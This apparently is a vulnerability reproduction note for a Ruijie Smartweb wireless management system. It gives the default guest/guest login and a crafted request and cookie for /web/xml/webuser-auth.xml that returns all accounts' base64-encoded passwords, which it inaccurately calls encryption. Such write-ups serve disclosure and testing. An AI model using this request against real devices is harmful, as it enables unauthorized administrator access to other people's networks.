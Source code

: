 # Ruijie Smartweb management system Password information leakage vulnerability

## Vulnerability Description

Ruijie Network Co., Ltd.'s wireless smartweb management system has logical flaws and vulnerabilities. The attacker can obtain the administrator account and password from the vulnerability, so as to log in with administrator privileges.

## Vulnerability Impact

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">Rujie Network Co., Ltd. Wireless smartweb management system</span>

## Network surveying and mapping



## Vulnerability reappears

The login page is as follows



![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/ruijie-15.png)



The guest account exists by default, and the account password is `guest/guest`



During the login process, I searched for admin's data and found that a file `/web/xml/webuser-auth.xml` was requested, and the response contained the base64 encryption of the admin password.



![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/ruijie-16.png)



By decrypting, you can get the admin administrator's password and try to request it directly.



```plain
http://xxx.xxx.xxx.xxx/web/xml/webuser-auth.xml

Cookie添加
Cookie: login=1; oid=1.3.6.1.4.1.4881.1.1.10.1.3; type=WS5302; auth=Z3Vlc3Q6Z3Vlc3Q%3D; user=guest
```



![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/ruijie-17.png)



Get all accounts' level marks and base64 encrypted account passwords directly